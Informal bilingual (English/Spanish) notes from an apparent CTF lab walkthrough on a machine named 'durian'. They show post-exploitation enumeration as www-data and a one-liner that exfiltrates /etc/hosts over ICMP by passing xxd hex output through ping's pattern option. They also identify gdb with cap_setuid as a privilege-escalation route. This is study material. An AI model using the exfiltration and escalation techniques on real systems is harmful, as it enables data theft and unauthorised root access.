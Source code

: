 Lets go to the folder /home/durian

we have no password 

id (we are not in some group)

sudo -l 
we can execute things

```
User www-data may run the following commands on durian:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /bin/ping
www-data@durian:/home/durian$ 

```

ping and shutdown

ping is interesting

we can do "data exfiltration" with ping

dice que en xxd -p -c 4 /etc/hosts podemos ver cosas  (esta en hexadecimal)

-p (patron)
-c en pares de 4 

"dice que se puede lanzar con ping un paquete pero a la vez un patron, y este patron indicaba datos para filtrar por ICMP" Y con scapy desde python nos creabamos un "listener, sniffer" para interpretar todo lo que nos llegara por ICMP y que represente el output todo bonito"
```
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 127.0.0.1 -p $line ; done
```

envias un ping y a la vez un patron , y si te abres wireshark

wireshark &> /dev/null & disown 

(ahi hay que mirar la loopback)

todo eso es la data del etc/hosts

con scapy lo parseaba todo para que se vea "super bonito" y se robaba mucha informacion a una pc windows

xxd

so... we are going to find priviledges suid on the system

find \-perm -4000 2>/dev/null

not so much.. so we are going to watch capabilities on the sistem

getcap -r / 2>/dev/null
 
2>/dev/null (redirige el stdr al dev null para no verlo (???))

```
www-data@durian:/$ getcap -r / 2>/dev/null
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep

```
setuid is interesting
